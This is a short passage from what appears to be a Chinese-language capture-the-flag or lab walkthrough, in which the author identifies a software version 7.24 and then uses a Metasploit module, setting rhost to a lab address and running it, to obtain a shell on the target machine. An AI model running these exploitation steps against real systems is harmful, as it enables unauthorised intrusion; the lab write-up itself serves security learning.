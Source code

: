 这里也就看到版本为`7.24`版本，不过到这里我就发现不到利用点了，唉，最终还是要使用`msf`，我这里就是不想使用`msf`的

# 漏洞利用

使用`msf`搜索，发现一个可执行，并且包含众多版本，就是使用这个

![](./pic-1/10.jpg)

```shell
use 1				#使用该脚本
options				#查看需要进行的配置
set rhost 192.168.10.12	#配置目标IP地址
run					#执行
```

执行后，会提示成功，不过这里需要自己输入`shell`命令进入靶机

![](./pic-1/11.jpg)
